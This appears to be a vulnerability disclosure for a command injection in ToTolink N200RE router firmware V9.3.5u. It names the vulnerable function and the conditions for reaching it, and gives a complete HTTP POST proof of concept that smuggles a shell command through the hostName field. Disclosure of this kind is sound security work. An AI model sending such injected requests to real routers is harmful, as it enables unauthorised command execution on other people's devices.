




# ToTolink N200RE V9.3.5u setOpModeCfg command injection

Vulnerability description: ToTolink N200RE V9.3.5u was found to have a command injection at /cgi-bin/cstecgi.cgi through hostname parameters.



Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

### 1.hostname

Locate the key code in function sub-41A0F8 through the doSystem danger function (as shown in the figure below), and the function call relationship of sub-41A0F8 is sub_420000()-->sub_41F494()-->sub_41A0F8()



By reading the code of the sub-41A0F8() function, we can know that firstly, proto cannot be 0, 3, 4, or 6, and secondly, hostname cannot be empty.



#### Payload

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 172.16.7.140
Content-Length: 101
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.7.140
Referer: http://172.16.7.140/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl" : "setOpModeCfg",
"proto" : "8",
"switchOpMode" : "1",
"hostName" : "';ls -al ../ ;'"}
```

#### Demo


